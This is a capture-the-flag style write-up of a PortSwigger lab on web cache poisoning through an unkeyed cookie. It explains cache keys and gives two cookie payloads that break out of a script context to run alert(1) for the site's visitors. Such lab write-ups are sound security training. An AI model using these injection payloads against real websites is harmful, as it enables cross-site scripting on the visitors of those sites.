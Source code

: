 # Web cache poisoning with an unkeyed cookie
# Objective
This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

# Solution
## Analysis
> Caches identify equivalent requests by comparing a predefined subset of the request's components, known collectively as the "cache key". Typically, this would contain the **request line** and **Host header**. Components of the request that are not included in the cache key are said to be "unkeyed".\
> \
> Source: [PortSwigger - Cache keys information](https://portswigger.net/web-security/web-cache-poisoning)

The cookie value is unkeyed and is reflected to user.
|![](Images/image-6.png)|
|:--:| 
| *Normal request* |

## Exploitation
### First method
Payload:
```
fehost=xyz"}</script><script>alert(1)//
```

|![](Images/image-7.png)|
|:--:| 
| *Web cache poisoning* |

### Second method
Payload:
```
fehost=xyz"-alert(1)-"xyz
```

|![](Images/image-8.png)|
|:--:| 
| *Web cache poisoning - alternative way* |